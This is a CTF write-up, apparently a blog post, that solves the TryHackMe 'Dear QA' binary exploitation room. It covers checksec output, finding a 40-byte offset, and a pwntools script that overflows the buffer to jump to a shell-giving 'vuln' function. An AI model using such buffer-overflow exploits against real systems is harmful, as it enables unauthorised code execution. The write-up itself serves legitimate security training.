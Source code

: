 ```yaml
---
title: "Dear QA - TryHackMe CTF Write-up"
classes: wide
header:
  teaser: assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/logo.png
ribbon: red
description: "We try buffer overflow directly, because why not? After checksec we can decide our attacking vector...."
categories:
  - Binary Exploitation
toc: true
---
```


CTF link: 

[Dear QA - Tryhackme](https://tryhackme.com/room/dearqa)

We try buffer overflow directly, because why not? After checksec we can decide our attacking vector.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled.png)

NX disabled, easy one. Just find the offset and execute shellcode or we can check if there a function gives us shell directly.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%201.png)

When we overflow buffer we see that  “aaal” overwritten on return address. Offset is 44-4= 40 because of “aaal” is detected when “l” appears, “l” is located at 44 but “aaal” located at 40.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%202.png)

We found a function gives us shell, our attack vector is “buffer overflow + execute vuln function“

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%203.png)

There is something wrong with this machine, we can execute code we can not get output. Okey we can open reverse shell and use it. But our exploit succeed.

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%204.png)

![Untitled](/assets/images/Binary-Exploitation/Dear-QA-TryHackMe-CTF-Writeup/Untitled%205.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './DearQA.DearQA'
binary = context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)
io = start()

exploit = b""
exploit += b"\x90"*40
exploit += p64(binary.sym['vuln'])

io.recvuntil(b"name: ")
io.sendline(exploit)

io.interactive()
```